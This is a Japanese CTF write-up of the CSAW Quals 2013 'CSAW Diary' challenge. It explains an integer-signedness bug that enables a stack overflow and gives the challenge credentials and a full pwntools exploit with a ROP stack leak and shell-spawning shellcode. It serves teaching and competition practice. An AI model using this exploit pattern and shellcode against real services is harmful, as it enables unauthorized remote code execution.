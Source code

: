 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2013/csaw-quals-2013-csawdiary/
  - /blog/2016/01/22/csaw-quals-2013-csawdiary/
date: 2016-01-22T04:57:41+09:00
tags: [ "ctf", "writeup", "csaw-ctf", "arithmetic-overflow", "buffer-overflow", "shellcode", "return-oriented-programming" ]
---
```


# CSAW Quals CTF 2013: CSAW Diary

かなりの時間はかかったが大半は自力で解いた。

## [CSAW Diary](https://github.com/ctfs/write-ups-2013/tree/master/csaw-quals-2013/exploitation/csawdiary-300)

>   nc 128.238.66.217 34266  
>   [fil_chal]()

与えられるバイナリは`34266`番portを開くサーバ。
接続するとloginを要求されるが、これはバイナリ中に平文で置いてあるのでそれを渡す。
すると`Entry Info: `と入力を促される。まず入力長となる整数を入力し、内容の文字列を入力する。
単純なbuffer overflowはない。

``` sh
$ nc localhost 34266
     *************    $$$$$$$$$        AAAAAAA  *****                   *****
    *   *******  *    $ $$   $$        A     A   *   *                 *   * 
    *  *       ***     $ $   $$       A  A A  A   *   *               *   *  
    *  *                $ $          A  A___A  A   *   *             *   *   
    *  *                 $ $        A           A   *   *    ****   *   *
    *  *                  $ $      A     AAA     A   *   *   *  *  *   *
    *  *       ***         $ $     A    A   A    A    *   ***   ***   *
    *  ********  *   $$$$$$   $    A    A   A    A     *             * 
     *************   $$$$$$$$$$    AAAAAA   AAAAAA      ************* 
                Dairy

UserName: csaw2013
Password: S1mplePWD
Welcome!
http://youtu.be/KmtzQCSh6xk

Entry Info: 30
foo
Til next time
```

nx bitはない。

``` sh
$ checksec --file fil_chal
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   fil_chal
```

脆弱性となるのは入力長の整数とその`signed`と`unsigned`を混同した比較である。
内部で`(unsigned)(n+1) <= 0x400`と比較されるので、ここに`-1`を渡すと`0 < 0x400`となりチェックを通過できる。このため`0xffffffff`文字まで書き込めることになり、stack上のbuffer overflowが可能となる。
あとは、stackのアドレスは再接続により変わらないため、簡単なropによりstackを読み出し、これから得られたアドレスを元にstack上のshellcodeにreturnすればよい。

本来のbufferの範囲にはasciiの範囲の文字しか入力できないようチェックがあるが、これは攻撃には影響しない。
アドレスの読み出しは不安定なのでsledと手での調整で適当にする。

ところでyoutubeへのurlは何だったのだろうか。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import time

context.log_level = 'debug'

##
## leak esp
##

p = remote('localhost', 34266)
p.recvuntil('UserName: ')
p.sendline('csaw2013')
p.recvuntil('Password: ')
p.sendline('S1mplePWD')
p.recvuntil('Entry Info: ')
p.sendline('-1')

# buf + 0x420 - 8 ebx
# buf + 0x420 - 4 edi
# buf + 0x420     ebp
# buf + 0x420 + 4 ret
# buf + 0x420 + 4 + 0x1c ebp

call_send = 0x08048d04
pop0_ret = 0x0804868f # rp -r 0 -f fil_chal --unique

payload = ''
payload += 'A' * 0x420 # buf[0x400], it must be filled with ascii
payload += p32(pop0_ret) * 5
payload += p32(call_send) # send(4, ebp, -1, 0)
payload += p32(4) # socket fd
p.sendline(payload)
s = p.recvall()

# find a stack-like addr
for i in range(len(s)-4):
    if s[i+3] == '\xff' and '\0' not in s[i:i+4]:
        stk = u32(s[i:i+4])
        break
stk -= 0x100 # magic offset, hand tweaked
log.success('got stack addr: ' + hex(stk))

##
## attack
##

p = remote('localhost', 34266)
p.recvuntil('UserName: ')
p.sendline('csaw2013')
p.recvuntil('Password: ')
p.sendline('S1mplePWD')
p.recvuntil('Entry Info: ')
p.sendline('-1')

# metasploit
# >   $ msfconsole
# >   msf payload(shell_bind_tcp) > use payload/linux/x86/exec
# >   msf payload(exec) > generate -o CMD='/bin/sh 0<&4 1>&4'
shellcode = \
    "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" + \
    "\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x12\x00\x00" + \
    "\x00\x2f\x62\x69\x6e\x2f\x73\x68\x20\x30\x3c\x26\x34\x20" + \
    "\x31\x3e\x26\x34\x00\x57\x53\x89\xe1\xcd\x80"

payload = ''
payload += 'A' * 0x420 # buf[0x400], it must be filled with ascii
payload += p32(stk)
payload += '\x90' * 0x100 # nop sled, if you make it longer, sigsegv will happen
payload += shellcode
p.sendline(payload)

time.sleep(0.1)
p.sendline('ls')
p.interactive()
```
